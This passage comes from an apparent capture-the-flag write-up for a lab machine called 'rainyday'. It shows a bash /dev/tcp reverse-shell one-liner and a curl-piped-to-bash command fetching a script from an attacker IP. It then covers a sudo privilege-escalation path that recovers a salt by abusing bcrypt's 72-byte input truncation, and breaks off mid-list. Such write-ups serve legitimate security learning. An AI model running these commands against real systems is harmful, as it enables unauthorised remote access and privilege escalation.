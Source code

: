 - Now I got a reverse shell as `jack_adm`, prepared `shell.sh` revshell script, a simple `bash -i >& /dev/tcp/10.10.16.2/1337 0>&1`, and on the target machine I executed `curl 10.10.16.2/shell.sh | bash` as the payload

---

## Privilege Escalation (Jack_adm -> root)

- Again, no need for any sort of complicated enum

```bash
jack_adm@rainyday:~$ sudo -l
Matching Defaults entries for jack_adm on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack_adm may run the following commands on localhost:
    (root) NOPASSWD: /opt/hash_system/hash_password.py
```

- A script that generates password hashes:

```bash
jack_adm@rainyday:/opt$ sudo -u root /opt/hash_system/hash_password.py
Enter Password> 
[+] Invalid Input Length! Must be <= 30 and >0
Enter Password> 10
[+] Hash: $2b$05$tw2vSrpM5VNADjuF0lCPQOXfE9IpnyZPhLVH2Rc.PcDJ3fs68Wc42
jack_adm@rainyday:/opt$ sudo -u root /opt/hash_system/hash_password.py
Enter Password> test
[+] Hash: $2b$05$YmRRhBs21e3ikk4gIoj3JOBRlt1mtraJQkl99dBHl/mwdxiYVYvw.
jack_adm@rainyday:/opt$ sudo -u root /opt/hash_system/hash_password.py
Enter Password> bash
[+] Hash: $2b$05$F/LmcmTAACcg3Yr9TJdJ7eA.NacqRuFJax1Qv600PODdkOqQa8qjO
jack_adm@rainyday:/opt$ 
```

- In my mind, I have plaintext + hash, maybe somehow I can get the used salt and crack another password? I still have some uncracked passwords that were previously gathered from the web app
- The only attack that I can think of is brute forcing the salt, I read from [the original site](https://www.usenix.org/legacy/events/usenix99/provos/provos_html/node4.html) that there's a maximum length for the key - the password - that is up to 56 bytes, 55 bytes excluding a terminating zery-byte

> the key argument is a secret encryption key, which can be a user-chosen password of up to 56 bytes (including a terminating zero byte when the key is an ASCII string).

- Since that the maximum password length for this script is 30 characters long, I'll have to use characters that are more than 1 byte, (UTF-8 or UTF-32) characters can be 4 bytes, for example accented characters like "". It's similar to a buffer overflow in the sense of the attack, my wild guess is that the password is in the form of `password-salt`, so I'll have to fill the first bytes and leave the rest for bruteforcing
- Found [this article](https://security.stackexchange.com/questions/39849/does-bcrypt-have-a-maximum-password-length) explaining further the process of overflowing the bcrypt algorithm, came to a conclusion that the password will be 72 bytes long, so in the first iteration I'll fill in 71 bytes, the next 70 bytes...etc. and bruteforce my way up to get the salt
- Here's some characters that are greater than 1 byte:
